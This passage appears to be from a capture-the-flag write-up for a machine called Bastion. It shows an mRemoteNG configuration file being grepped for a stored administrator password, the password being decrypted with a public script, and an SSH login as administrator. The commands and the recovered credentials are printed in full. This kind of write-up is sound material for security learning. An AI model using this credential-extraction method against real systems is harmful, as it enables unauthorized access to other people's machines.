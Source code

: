 We pass the contents of the file to our team of attackers and search the file for the passwords it stores. To make it faster I just copy and paste it to my computer and with the grep utility it finds the passwords quickly.

```
$ cat confCons.xml | grep -i "password"

me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
me="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="
```

There is the password ```Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="```, now we should look for a script to break it, this [repository](https://github.com/haseebT/mRemoteNG-Decrypt) has a good one.

Create another file containing only the password hash and run the script.

```
$ python3 mremoteng_decrypt.py -f hash 
Password: thXLHM96BeKL0ER2
```

We connect to the administrator user via SSH.

```
$ Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

administrator@BASTION C:\Users\Administrator>whoami                                                                             
bastion\administrator
```
